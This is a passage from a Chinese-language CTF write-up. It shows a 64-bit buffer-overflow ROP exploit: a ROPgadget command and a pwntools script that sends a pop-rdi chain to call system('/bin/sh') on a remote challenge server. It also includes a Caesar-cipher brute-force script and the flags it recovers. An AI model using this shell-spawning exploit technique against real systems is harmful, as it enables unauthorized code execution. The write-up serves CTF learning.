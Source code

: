 shift+F12 查看字符串，能找到 /bin/sh ，双击得到地址为：0x404050
左侧也能找到 system() 函数，
这时我们可以通过 rop 将 /bin/sh 装入system() 函数中来 getshell。

具体ROP时什么东西可以自行搜索，这里详细说一下怎么利用，
有了system，有了 /bin/sh，唯一的问题就是传参了（因为 我们要的是system("/bin/sh")，要把 /bin/sh 当作参数传到 system 执行嘛），
我们可以用 rop 做到这一点：
64位程序通过寄存器存放参数，所以我们可以用 pop rdi 将 /bin/sh 字串的地址压入rdi，然后 ret，再把 esp 指向 system() 函数地址执行就能 getshell 了。

所以，我们只需要用到 pop rdi ret 一个 gadget，用ROPgadget工具搜索一下就能得到地址，命令如下：
`ROPgadget --binary overflow --only "pop|ret"`

最后还有平衡栈帧的问题注意一下，脚本如下：
```python
from pwn import *

#r = process('./overflow')
r=remote(b'106.15.52.194',10001)
pop_rdi=0x4012e3
bin_sh=0x404050
system=0x401090
retn=0x40101a
p=b'a'*11 + p64(pop_rdi) + p64(bin_sh) + p64(retn) + p64(system)
r.sendlineafter(b'name?\n',p)

r.interactive()
```

## Crypto
### Caesar
简单的凯撒加密...
写个脚本遍历，或者网上找个线上的解密网站一位位地试，或者你能直接猜出来内容，都行...
贴个遍历所有结果的脚本：
```python
model = "abcdefghijklmnopqrstuvwxyz"
model2 = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'

str1 = "Fdhvdu_lv_wrr_Hdcb"

for key in range(1,27):
    for s in str1:
        if s.islower():
            n = model.find(s)
            s = model[n-key]
        elif s.isupper():
            n = model2.find(s)
            s = model2[n-key]
        print(s, end='')
    print('')
```
得到 flag 内容为 Caesar_is_too_Eazy
（不觉着放眼望去只有这个能读通吗？）
